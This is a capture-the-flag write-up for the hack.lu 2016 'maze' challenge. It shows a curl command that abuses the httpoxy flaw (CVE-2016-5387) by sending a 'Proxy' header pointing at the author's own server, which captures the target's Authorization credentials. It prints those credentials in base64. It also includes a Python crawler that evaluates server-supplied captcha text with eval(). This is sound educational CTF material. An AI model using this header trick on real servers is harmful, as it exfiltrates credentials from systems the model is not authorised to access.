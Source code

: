 ---
layout: post
title: hack.lu CTF 2016 - maze 
post_author: pagabuc
excerpt_separator: <!--more-->
---

This challenge is divided in two steps: bypass the authentication and
solving the maze.  The first one tooks us several hours and was at the
end solved by @invano. 

The source code (https://cthulhu.fluxfingers.net:1507/code.php)
tell us the server is an `Apache/2.4.7-ubuntu4` which is vulnerable to
CVE-2016-5387, better known as `httpoxy`. <!--more-->
With this vuln Apache overwrites the environment variable
HTTP_PROXY with the content of the field 'Proxy' found in the
headers. And here's the problem: the function `queryURL` - which knows
the credentials - honors HTTP_PROXY, thus redirecting each request to
the location specified in HTTP_PROXY.

So we executed:
```bash
curl -v -H "Proxy: IP.OF.MY.SERVER:PORT" https://cthulhu.fluxfingers.net:1507/    
````
    
And on the server we received the request with the Authorization header set!
![Raw Image 1]( {{ site.baseurl }}/files/hacklu2016/maze/auth.png)
    
To get the flag now it's just a matter of solving the maze.

The idea is that each url represents a position in the maze. To see the
reachable positions from a given one, you have to resolve a very simple
captcha.

So what I did was to recursively explore each position, but paying
attention to skip a path if it was already visited (otherwise you can
enter an infinite loop). The script below implements the idea:

```python
#!/usr/bin/env python2

import sys
import requests
import re
from BeautifulSoup import BeautifulSoup
from collections import defaultdict

maps = defaultdict(list)
allurls = []
        
def get_and_solve(url):
    print "[+] Get and solve %s" % url
    header = {'Authorization': 'Basic c3VwM3JzM2NyM3R1czNyOm4wYjBkeWM0bmd1M3NteXA0c3N3MHJk'}

    r = requests.get(url, headers=header)
    print r.text
    if "NOT THE FLAG" in r.text:
        return ["NOT THE FLAG"]

    a = re.search("([0-9]* [+-/*]) [0-9]*", r.text).group(0)
    res = eval(a)
    #print "Solve %s = %d" % (a,res)
    payload = { 'result': res}

    r = requests.post(url, headers=header, data=payload)
    print r.text

    soup = BeautifulSoup(r.text)
    urls = []
    for a in soup.findAll('a', href=True):
        print "Dumping map of %s: %s" % ( url, maps[url])
        if a['href'] not in maps[url]:
            maps[url].append(a['href'])
            urls.append('https://cthulhu.fluxfingers.net:1507/%s' % a['href'])


    return urls


def explore(p, l):
    sys.stdout.flush()
    for u in l:
        # STATS
        if u not in allurls:
            allurls.append(u)
            print "Found new state (out of %d): %s" % (len(allurls),u)

        urls = get_and_solve(u)

        if "NOT THE FLAG" in urls:
            return
        else:
            explore(u, urls)


l = ['https://cthulhu.fluxfingers.net:1507/maze/j1dgu9uxkafajnvwo10w6j5bpwr42glm/iyfu5c4wf7w6ila0pfq4dlu7lf3rn8f1.php',
 'https://cthulhu.fluxfingers.net:1507/maze/t1xdtygdurka0vwo04vxovb9h4q91tw6/2zszieqld8ghxdm43nwi7t8wh93mxau4.php',
 'https://cthulhu.fluxfingers.net:1507/maze/7v2lt3k6xsnuqywv67fxwbsdzxxzunco/j6n7ye84mmdrs5dr4wbiw6y9ttz1jpfv.php',
 'https://cthulhu.fluxfingers.net:1507/maze/o25s1yq85a30u1hqoj6mpguy12o39f4i/bnbnylcs2td9a2ni5tgvhx56mgvgfgxw.php']
explore('start',l)
```

After 15min of prayers (it was 11.30am and the CTF was ending in
30minutes) the script found the exit of the maze and rewarded us with a 200+ points flag:
`FLAG{queried_g00d_y0u_h4v3}`.